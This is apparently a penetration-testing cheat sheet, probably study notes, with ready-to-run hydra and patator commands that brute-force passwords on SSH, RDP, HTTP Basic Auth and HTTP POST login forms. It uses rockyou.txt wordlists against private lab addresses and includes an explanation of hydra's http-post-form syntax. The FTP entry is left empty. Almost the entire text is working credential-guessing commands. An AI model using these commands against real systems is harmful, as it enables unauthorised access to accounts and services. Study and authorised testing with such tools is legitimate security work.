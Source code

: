 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP
```
ftp://
```


# HTTP GET (Basic Auth)
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.242.201 http-head /
```
```
patator http_fuzz auth_type=basic url=http://192.168.157.46:242/ user=FILE0 password=FILE1 0=./users.txt 1=/usr/share/wordlists/rockyou.txt -x ignore:code=401
```


# HTTP POST
http-post-form argument, which accepts three colon-delimited fields.

The first field indicates the location of the login form. In this demonstration, the login form is located on the index.php web page. The second field specifies the request body used for providing a username and password to the login form, which we retrieved with Burp. Finally we must provide the failed login identifier, also known as a condition string.

```
sudo hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

- Colon seperated like (admin:password)
```
hydra -C userpass.txt
```
